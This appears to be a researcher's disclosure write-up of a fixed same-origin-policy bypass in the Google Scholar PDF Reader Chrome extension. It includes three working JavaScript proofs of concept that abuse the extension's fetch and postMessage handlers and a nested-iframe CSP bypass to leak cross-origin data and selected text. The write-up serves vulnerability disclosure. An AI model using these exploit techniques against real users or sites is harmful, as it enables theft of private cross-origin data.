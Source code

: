 ```yaml
---
title: SOP bypass in Google Scholar PDF Reader (Fixed)
---
```


Google Scholar PDF Reader is apparently not an official Google app so was not awarded :(  
Chrome Webstore: <https://chromewebstore.google.com/detail/google-scholar-pdf-reader/dahenjhkoodjbpjheillcadbppiidmhp>

# Leak 1 (With compromised renderer)

```js
// In the context of a content script on any website.
// Leaked data must be JSON.

let x = chrome.runtime.connect();
x.postMessage({
  type: "fetch",
  method: "GET",
  url: "https://www.google.com/something.json",
  id: 1,
});
x.onMessage.addListener(console.log);
```

# Leak 2 (Without compromised renderer)

```js
// Embed victim PDF from attacker page.
let f = document.createElement("iframe");
f.width = 1000;
f.height = 1000;
f.src =
  "https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf";
document.body.appendChild(f);

// Navigate nested, nested frame to attacker controlled page with null origin.
// I think this also creates a race condition version
f.contentWindow[0][0].location =
  "https://terjanq.me/xss.php?h[Content-Security-Policy]=sandbox%20allow-scripts";

// On that attacker page, Make sure the target page to leak is the same-origin as the pdf https://services.google.com in this case.
onmessage = async (e) => {
  let reader = e.data.body.pipeThrough(new TextDecoderStream()).getReader();
  let result = await reader.read();
  console.log(result.value);
};
parent.parent.postMessage(
  { type: "fetch", url: "https://services.google.com/example" },
  "*",
);
```

# Leak 3 (Without compromised renderer)

```js
let f = document.createElement("iframe");
f.width = 1000;
f.height = 1000;
f.src =
  "https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf";
document.body.appendChild(f);
```

Selected text gets leaked cross-origin.

```js
onmessage = console.log;
f.contentWindow[0].postMessage({ type: "getSelectedText" }, "*");
```

# Attack scenario

An attacker controlled website can bypass SOP if one of the following is met:

- Attacker wants JSON data and has a compromised renderer bug
- Attacker wants data from a origin that contains a PDF which allows embedding

# frame-src 'self' bypass

Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.  
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>
